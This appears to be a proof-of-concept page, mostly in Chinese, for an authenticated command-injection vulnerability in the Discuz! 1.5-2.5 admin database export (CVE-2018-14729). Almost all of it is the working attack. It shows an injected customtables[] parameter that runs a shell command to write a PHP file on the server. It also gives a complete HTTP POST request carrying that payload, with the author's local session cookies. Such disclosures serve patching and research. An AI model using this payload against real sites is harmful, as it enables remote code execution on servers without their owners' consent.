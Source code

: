 ## Affected Version  

 **Discuz! 1.5-2.5**

## POC

需要登入后台。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/new/Snip20181220_14.png)
![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/new/Snip20181220_15.png)

修改的参数

参数`customtables[]`

    customtables%5B%5D=pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #

数据包

    POST /discuz25/admin.php?action=db&operation=export&setup=1 HTTP/1.1
    Host: localhost
    Content-Length: 252
    Cache-Control: max-age=0
    Origin: http://localhost
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Referer: http://localhost/discuz25/admin.php?action=db&operation=export
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: _ga=GA1.1.994534325.1530166127; PHPSESSID=ffe1069f199ac7656303b61e42db4f5d; ECSCP_ID=e685eee56d5dc4a732b0b1ecb8cbac6becac2355; ECS_ID=b9e7920dfb02c84b5298d0022c64a8fc393376d7; Phpstorm-326452dc=558db1bc-7f7b-4670-8d36-9cef7d8c1b9d; ECS[visit_times]=8; 3Od_visitedfid=2; 3Od_auth=03d3WSoYgxBuC4Yg3mqq4yEVgLBDsrbNx%2F8rIcURpRI5sDFtpC1S9F%2BYa6BViyFggZYM7bac7evIAZJdgLOJ7Q; 3Od_sid=mm4AMQ; QoOR_2132_saltkey=V6AnRzmw; QoOR_2132_lastvisit=1545183584; QoOR_2132_widthauto=-1; R94S_2132_saltkey=1hs56u42; R94S_2132_lastvisit=1545220172; R94S_2132_promotion=1; R94S_2132_auth=75696lGYV1FEogy00DO%2FmyhWbxk8OljAPZAeSvxfgwvvLbMruyS2sfVSYZUG4wr3GYw5L66%2FfppgB9gzioss; R94S_2132_creditnotice=0D0D2D0D0D0D0D0D0D1; R94S_2132_creditbase=0D0D1D0D0D0D0D0D0; R94S_2132_creditrule=%E6%AF%8F%E5%A4%A9%E7%99%BB%E5%BD%95; R94S_2132_ulastactivity=e0adnKO8pY2qUt5XPBdVc3jbgQxCrCiAkAFzNuN%2Fu9wTbgHc7XLK; R94S_2132_sid=9H4E8j; R94S_2132_lastact=1545224711%09admin.php%09; QoOR_2132_sid=BdGwL9; QoOR_2132_sendmail=1; QoOR_2132_ulastactivity=9cf4%2B3XCcfF1uHee0LOFG0wa6FFvCc1Rp96Kg%2BkgOi%2FL7ovDRKru; QoOR_2132_auth=32d7SwpKowF2VAeqfqe0dWo1FjINHjZA9zt%2ByF8A7LOif0pFSaHnEznijiCaqgsQD8NSBtEiwEDL4Wrnx1gz; QoOR_2132_checkpatch=1; QoOR_2132_checkupgrade=1; QoOR_2132_lastact=1545224853%09admin.php%09
    Connection: close
    
    formhash=0d2eaac0&scrolltop=&anchor=&type=custom&customtables%5B%5D=pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #&method=shell&extendins=0&sqlcompat=&usehex=1&usezip=0&filename=181219_u0CC19kJ&exportsubmit=%E6%8F%90%E4%BA%A4




## References
https://paper.seebug.org/763/
https://github.com/FoolMitAh/CVE-2018-14729





